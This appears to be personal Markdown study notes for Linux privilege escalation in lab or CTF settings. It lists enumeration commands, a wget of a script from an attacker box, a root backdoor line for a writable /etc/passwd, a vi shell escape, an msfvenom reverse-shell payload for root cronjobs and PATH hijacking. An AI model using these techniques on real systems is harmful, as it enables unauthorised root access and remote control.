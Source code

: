 # Enumeration

- use the LinEnum.sh script it gives good info.
- Some of the other important enumeration items
```
hostname
uname -a
cat /proc/version -> provides information about target system processes
cat /etc/issue
ps
ps -A -> all running processes
ps axjf -> view process tree
ps aux -> user processes that are not attached to the terminal
env
sudo -l
ls
id
/etc/passwd
history
ifconfig
ip route
netstat -> gather information on existing network connections
netstat -a -> shows all the listening ports and established connections
netstat -at or netstat -au -> list TCP & UDP protocols respectively
netstat -l -> ports in listening mode. these ports are open & ready to accept incoming connections
netstat -s -> usage statistics by protocol
netstat -su -> usage stats for udp
netstat -st -> usage stats for tcp
netstat -tp -> connections with pid & service information
netstat -i -> shows interface statistics
netstat -ano -> a (display all sockets); n (do not resolve names); o (display timers)
find . -name flag1.txt
find /home -name flag1.txt
find / -type d -name config
find / -type f -perm 0777
find / -perm a=x -> find all executable files
find /home -user frank
find / -mtime 10 -> files modified in last 10 days
find / -atime 10 -> files accessed in last 10 days
find / -cmin 60 -> files changed in the last 60 mins
find / -amin 60 -> files accessed in the last 60 mins
find / -size 50M -> files with a size of 50 MB
find / -size +100M -> files greater than size of 100Mb
find / -type d -writable 2>/dev/null -> writable directories
find / -type d -perm -222 2>/dev/null -> "         "
find / -perm -o w -type d 2>/dev/null -> "         "
find / -prem -o x -type f -> executable files
find / -name python*
find / -name gcc*
find / -name perl*
find / -perm -u=s -type f 2>/dev/null -> SUID bit files

```
- start a webserver with python where the file is present, `python -m http.server 80`
- go to the target box and use wget there, `wget <attacker-box>:80/LinEnum.sh`
- `cat /etc/shells` to list the number of available & valid shells on the box

## Write access to /etc/passwd
- before we add our user, first create a compliant password hash. use the command `openssl passwd -1 -salt [salt] [password]`. ex:- `openssl passwd -1 -salt new 123`
- Add a line as the following - `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`

## Abusing SUID/SGID files
- try and see if you can execute these files

## Escaping VI Editor
- always use `sudo -l` to know what commands the user can execute as a sudo user.
- therefore you will be able to run as root user without a root password 
- this can help you escalate your own privileges
- running this command as `user8` will show us that this user can run vi as root user.
- Type in `sudo vi` and type `:!sh` or `:!bash` to give you a root shell.


## Misconfigured Binaries or GTFOBins
- GTFOBins are curated list of binaries that can be exploited by an attacker to by pass local security restrictions
- For more info look at [GTFOBins](https://gtfobins.github.io)
- this is how we have managed to get a shell with a VI editor
- this can also help us get a reverse/bind shell as well
- If you are looking for windows binaries [LOLBAS](https://lolbas-project.github.io/)
- LOLBAS - Living of Land binaries and scripts

## Exploit cronjobs
- If you find any cronjob running as root, then you can get a root shell.
- First create the payload
- `msfvenom -p cmd/unix/reverse_tcp LHOST=<attacker-host> LPORT=<attacker-port>`
- copy that payload and edit the script & replace it with payload contents and therefore you become an admin

## Exploit PATH variable
- If you find a SGID file which is running as root and is picking some executables as part of the script, you can create a dummy executable in a specific path and export that path & re-run the executable.
- If we do that we will be getting as shell as the SUID user.
- Example:- `cd /tmp;echo "/bin/bash" > ls;export $PATH=/tmp:$PATH`
- Now, when SGID user executes ls, he will ideally be giving us a SHELL.
